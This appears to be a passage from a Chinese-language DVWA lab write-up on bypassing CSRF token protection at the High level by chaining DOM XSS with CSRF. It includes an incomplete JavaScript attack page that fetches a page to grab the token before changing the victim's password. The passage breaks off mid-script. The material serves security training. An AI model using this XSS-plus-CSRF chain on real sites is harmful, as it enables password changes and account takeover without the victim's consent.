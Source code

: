 小疑問:
```
document.getElementById("demo").click();
為啥一定要包在 run() 裡面才能成功，
該不會是 callback 之類的....
```




<br/><br/>

# High


code:
* 加上了 token 


```php=
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 
```



也就是說，前面的攻擊者只需要發送請求。但這次還須要猜測出 token。

幾本上攻擊者因為是沒登入狀態下，所以拿不到登入狀態下的token，所以可以防禦。

但這題需要使用 xss + csrf


受害者網站上具有xss 
* 我們這題使用 xss dom level: high


* 攻擊者在外網架設一個惡意腳本:
xss 執行抓取token -> xss 發出更改密碼請求

<br/><br/>

知道了以上步驟後，我們先在dvwa 目錄下本地測試一個檔案，


* 測試能不能透過這支腳本達到csrf的效果。
實測可以fetch 請求達到 csrf 改變密碼為777

http://www.dvwa.com/csrf_high.html


```javascript=

<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>

	<h1>hack</h1>

</body>

<script type="text/javascript">
	

async function getToken(url) {

 	let data = await fetch(url);

 	// data 轉為 text
 	data = await data.text();

 	//創造dom 物件
```